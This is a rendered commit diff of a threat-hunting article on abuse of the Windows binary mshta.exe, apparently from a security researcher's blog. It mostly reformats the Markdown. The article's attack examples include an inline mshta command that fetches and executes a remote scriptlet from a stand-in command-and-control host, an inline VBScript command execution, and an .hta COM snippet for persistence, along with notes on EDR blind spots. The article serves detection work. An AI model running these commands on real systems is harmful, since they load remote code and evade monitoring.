

Before and after one commit to DubzVX/DubzVX.github.io, a Markdown page: articles/mshta-abuse.md, the part around one of its changes. Shown at 81% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/articles/mshta-abuse.md
+++ b/articles/mshta-abuse.md
@@ -1,34 +1,48 @@
-# MSHTA Abuse — Threat Hunting
+# MSHTA: Beyond Classic Detections — Threat Hunting
+### What standard Sigma rules miss — and how to build high-fidelity threat hunting around a 25-year-old Windows binary
 
-MSHTA: Beyond Classic Detections
-What standard Sigma rules miss — and how to build high-fidelity threat hunting around a 25-year-old Windows binary
 > **TL;DR** — `mshta.exe` is well-documented, yet consistently abused. This article focuses on the *gaps*: under-documented execution chains, SentinelOne blind spots, high-fidelity Sigma rules, and Deep Visibility pivot queries.
+
 ---
-Table of Contents
-Technical Anatomy of MSHTA
-Under-Documented Execution Chains
-Behavioral Detection vs Signature Detection
-Blind Spots in SentinelOne
-High-Fidelity Sigma Rules
-Threat Hunting Pivots
-Defensive Countermeasures
-Conclusion
+
+## Table of Contents
+
+1. [Technical Anatomy of MSHTA](#1-technical-anatomy-of-mshta)
+2. [Under-Documented Execution Chains](#2-under-documented-execution-chains)
+3. [Behavioral Detection vs Signature Detection](#3-behavioral-detection-vs-signature-detection)
+4. [Blind Spots in SentinelOne](#4-blind-spots-in-sentinelone)
+5. [High-Fidelity Sigma Rules](#5-high-fidelity-sigma-rules)
+6. [Threat Hunting Pivots](#6-threat-hunting-pivots)
+7. [Defensive Countermeasures](#7-defensive-countermeasures)
+8. [Conclusion](#8-conclusion)
+
 ---
-1. Technical Anatomy of MSHTA
+
+## 1. Technical Anatomy of MSHTA
+
 `mshta.exe` (Microsoft HTML Application Host) is a native Windows COM interpreter designed to execute `.hta` files. It inherits the calling process's privileges, supports both VBScript and JScript, and natively bypasses certain script execution restriction policies.
+
 Its core characteristic: it runs within the context of Internet Explorer (Trident/MSHTML engine), granting it COM resolution capabilities, `WScript.Shell` access, and `ActiveXObject` instantiation — all without triggering a "PowerShell script" alert.
-Why it's still relevant in 2026:
+
+**Why it's still relevant in 2026:**
+
 Despite IE's deprecation, `mshta.exe` ships on every Windows system including Windows 11 and remains fully functional. APT groups reuse it precisely because blue teams consider it "old news" — and lower their guard accordingly.
+
 Key technical properties:
-Runs as a trusted Microsoft-signed binary (`mshta.exe` hash pinning is useless)
-Resolves COM objects in-process without spawning a separate interpreter
-Supports `about:` and `vbscript:` URI handlers as command-line arguments
-Can load remote payloads over HTTP/HTTPS natively
-Inherits proxy settings from the current user session
+- Runs as a trusted Microsoft-signed binary (`mshta.exe` hash pinning is useless)
+- Resolves COM objects in-process without spawning a separate interpreter
+- Supports `about:` and `vbscript:` URI handlers as command-line arguments
+- Can load remote payloads over HTTP/HTTPS natively
+- Inherits proxy settings from the current user session
+
 ---
-2. Under-Documented Execution Chains
+
+## 2. Under-Documented Execution Chains
+
 Most blog posts cover `mshta.exe http://attacker/payload.hta`. Here are the less-documented vectors that fly under the radar:
-T1218.005-A — Inline Script Execution (no file on disk)
+
+### T1218.005-A — Inline Script Execution (no file on disk)
+
 ```cmd
 # Inline VBScript — no .hta file written to disk
 mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""cmd /c whoami"",0,True:close")
@@ -36,10 +50,15 @@ mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""cmd /c whoami"",0,
 # Inline JavaScript variant
 mshta javascript:a=(GetObject("script:https://c2.attacker/loader.sct")).Exec();close();
 ```
-Why it matters: No `.hta` file hash to detect. The malicious payload lives entirely in the command line arguments, which are often truncated in SIEM ingestion pipelines.
+
+**Why it matters:** No `.hta` file hash to detect. The malicious payload lives entirely in the command line arguments, which are often truncated in SIEM ingestion pipelines.
+
 ---
-T1218.005-B — COM Object Chaining
+
+### T1218.005-B — COM Object Chaining
+
 Once `mshta.exe` is running, it can silently instantiate COM objects to perform secondary actions without spawning a visible child process:
+
 ```vbscript
 <!-- Inside a .hta file -->
 <script language="VBScript">
@@ -51,5 +70,7 @@ Once `mshta.exe` is running, it can silently instantiate COM objects to perform
   ' ... task registration logic
 </script>
 ```
-Why it matters: No child process is created. SentinelOne's behavioral engine relies heavily on process-tree analysis. COM-based lateral movement from `mshta.exe` produces no parent-child telemetry.
+
+**Why it matters:** No child process is created. SentinelOne's behavioral engine relies heavily on process-tree analysis. COM-based lateral movement from `mshta.exe` produces no parent-child telemetry.
+
 ---
````
Also changed, not shown: other parts of articles/mshta-abuse.md (+164 -67 lines).
